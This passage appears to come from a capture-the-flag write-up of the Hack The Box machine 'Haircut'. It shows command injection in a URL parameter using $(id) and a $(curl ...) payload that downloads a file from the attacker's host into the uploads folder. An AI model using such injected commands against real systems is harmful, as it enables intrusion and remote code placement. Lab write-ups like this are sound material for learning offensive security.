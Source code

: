 ## Exploit
### Command Injection on exposed.php

We realized that http://haircut.htb/exposed.htb is vulnerable to command injection attack by modifying the input to become ```http://10.10.16.4:3000/$(id)```

![Command Injection](https://github.com/joelczk/writeups/blob/main/HTB/Images/Haircut/command_injection.png)

However when we try to put in the reverse shell payload, we realize that we are unable to execute some of the reverse shell payload as most of these characters are being blacklisted by the web server.

However, we do realize that we are able to upload by modifying the payload to become ```http://localhost$(curl http://10.10.16.6:3000/hi.html -o uploads/hi.html)```

![Upload](https://github.com/joelczk/writeups/blob/main/HTB/Images/Haircut/uploads.png)

Afterwards, we will be able to use curl command to obtain the contents of the uploaded file.

```
┌──(kali㉿kali)-[~]
└─$ curl -ilk http://haircut.htb/uploads/hi.html
HTTP/1.1 200 OK
Server: nginx/1.10.0 (Ubuntu)
Date: Fri, 24 Dec 2021 05:12:09 GMT
Content-Type: text/html
Content-Length: 69
Last-Modified: Fri, 24 Dec 2021 05:11:44 GMT
Connection: keep-alive
ETag: "61c55690-45"
Accept-Ranges: bytes

<html>
<body>
<p> Testing for command injection </p>
</body>
</html>
```
